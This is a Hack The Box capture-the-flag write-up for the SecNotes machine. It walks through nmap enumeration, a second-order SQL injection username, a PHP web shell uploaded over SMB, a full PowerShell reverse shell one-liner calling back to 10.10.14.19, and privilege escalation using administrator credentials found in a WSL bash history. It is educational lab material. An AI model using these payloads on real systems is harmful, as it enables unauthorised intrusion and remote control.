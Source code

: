# HTB - SecNotes

#### Ip: 10.10.10.97
#### Name: SecNotes
#### Rating: Medium

----------------------------------------------------------------------

![SecNotes.png](../assets/secnotes_assets/SecNotes.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:19 CDT
Nmap scan report for 10.10.10.97
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just a few open ports here. Lets dig a bit deeper by using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -sC -sV -T4 10.10.10.97 -p 80,445,8808                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:22 CDT
Nmap scan report for 10.10.10.97
Host is up (0.067s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2023-05-16T12:23:03-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-05-16T19:23:04
|_  start_date: N/A
|_clock-skew: mean: 2h20m00s, deviation: 4h02m30s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.15 seconds
```

Checking out the webpage on port 80, we see a simple login page:

![login.png](../assets/secnotes_assets/login.png)

After trying several weak password combos and basic login bypasses via SQL injection, I decided to try creating a new user. But rather than a normal username (admin:password) I tried a second order SQL injection and created a user `' or 1='1` with a password of Password123!. This was an attempt to exploit a SQL injection and get access to the database via a login.

![signup.png](../assets/secnotes_assets/signup.png)

It worked! After logging in as the created 'user' I was able to grab what appear to be a username and password: `tyler:92g!mA8BGjOirkL%OG*&`

![home.png](../assets/secnotes_assets/home.png)

Lets try to use these credentials with SMB. 

![smbmap.png](../assets/secnotes_assets/smbmap.png)

Cool, I was able to see which shares I can access as user Tyler. What catches my eye is that I have both read and write permissions to the `new-site` share. Lets check that out:

![smbclient.png](../assets/secnotes_assets/smbclient.png)

Interesting, this appears to be a share containing IIS information. Recalling back to our initial Nmap scan I remembered there were two HTTP pages, one on port 80, and the other on port 8808.

Navigating to http://10.10.10.97:8808/ sure enough we find an IIS landing page.

![iis.png](../assets/secnotes_assets/iis.png)

Lets upload a web shell to the SMB share and see if we can get execution that way. 

### Exploitation

Firstly we need to create a file we'll call shell.php

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ cat >> shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we can upload it to the SMB share using the `put` command:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.1 kb/s)
```
Navigating to the file in the browser we can confirm we now have execution on the machine.

![whoami.png](../assets/secnotes_assets/whoami.png)

Lets grab a PowerShell reverse shell from https://www.revshells.com/ and URL encode it:

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.19', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

After setting up a netcat listener and issuing the PowerShell one liner as a cmd, we catch a shell back and can grab the user.txt flag:

![user_flag.png](../assets/secnotes_assets/user_flag.png)

### Privilege Escalation

Checking out the contents of `C:\` we see an interesting file, Ubuntu.zip:

![ubuntu.png](../assets/secnotes_assets/ubuntu.png)

This makes me wonder if the machine is running Windows Subsystem for Linux. 

After Googling around a bit I find I can access the Linux system at `AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root`

And sure enough I find I can access the root directory:

![root_dir.png](../assets/secnotes_assets/root_dir.png)

And interestingly, the `.bash_history` file doesn't appear to be empty, or dumping to `/dev/null`:

Taking a look it appears we have an admin credential stored in memory!

```text
SHELL> cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

Lets use impacket-psexec to login and grab the root.txt flag

![root_flag.png](../assets/secnotes_assets/root_flag.png)

That was a super fun box with some interesting concepts in it. It was especially fun working with Windows Subsystem for Linux because I haven't played with that too much and it was great to learn more about it.

Thanks for following along!

-Ryan

-----------------------------------------------------------
